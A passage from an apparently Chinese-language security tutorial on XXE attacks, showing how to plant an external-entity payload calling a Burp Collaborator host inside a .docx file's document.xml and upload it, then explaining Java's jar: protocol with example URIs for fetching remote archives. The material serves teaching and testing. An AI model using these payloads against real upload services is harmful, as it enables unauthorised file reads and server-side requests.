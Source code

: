 打开./unzipped/word/document.xml，并将该相关 payload 写入 XML 文件中。我首先尝试的是 HTTP 请求，如下所示：

```plain
<!DOCTYPE x [ <!ENTITY test SYSTEM "http://[ID].burpcollaborator.net/"> ]>
<x>&test;</x>
```

这些行应该插入到两个根 XML 对象之间，如下图所示：

[![img](assets/1698894099-d59f19418c9f828c7d6c3c3cb4940c65.png)](https://storage.tttang.com/media/attachment/2022/11/14/249e9fe6-1ab9-4897-a513-99ee4cddf9c6.png)

剩下的就是压缩文件以创建恶意的 poc.docx 文件。从我们之前创建的“解压缩”目录中，运行以下命令：

[![img](assets/1698894099-b032d10c16ba832267cfab2b02624bfc.png)](https://storage.tttang.com/media/attachment/2022/11/14/a97eb7ca-6923-46d0-8a2e-6beb61e2dd68.png)

现在上传该恶意文件然后在相关平台中查看是否有相关请求触发。

### [Jar: 协议](#toc_jar)

Jar 协议只能在 Java 的应用程序中触发，它允许访问 PKZIP（.zip，.jar）中的文件，并且适用于本地或者远程文件。

利用方式：

```plain
jar:file:///var/myarchive.zip!/file.txt
jar:https://download.host.com/myarchive.zip!/file.txt
```

**运行过程中：**

-   发送一个 http 请求（[https://download.host.com/myarchive.zip](https://download.host.com/myarchive.zip)）加载一个 ZiP 文档。
-   将 Response 包保存在本地临时文件/tmp 目录下。
-   提取文档内容
-   读取 file.zip
-   删除保存在 /tmp 目录下的文件
